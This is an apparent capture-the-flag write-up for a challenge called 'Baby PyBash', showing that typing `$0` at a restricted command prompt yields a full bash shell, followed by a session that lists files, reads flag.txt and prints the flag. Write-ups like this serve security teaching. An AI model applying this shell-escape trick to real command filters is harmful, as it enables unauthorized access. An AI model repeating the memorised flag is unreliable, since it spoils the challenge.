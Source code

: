 ```yaml
---
ai_date: '2025-04-27 05:14:01'
ai_summary: Exploitation involves using `$0` to gain bash access and retrieve the
  flag
ai_tags:
- shell
- cmd-injection
- exploitation
created: 2024-08-30T19:04
points: 50
solves: 211
updated: 2024-09-01T15:59
---
```


Just use `$0` and you will have bash access.

```
== proof-of-work: disabled ==
Welcome to Baby PyBash!

Enter a bash command: $0
ls
chall.py
flag.txt
run.sh
cat flag.txt
```

```flag
CSCTF{b4sH_w1z4rd_0r_ju$t_ch33s3_m4st3r?_c1d4eeb2a}
```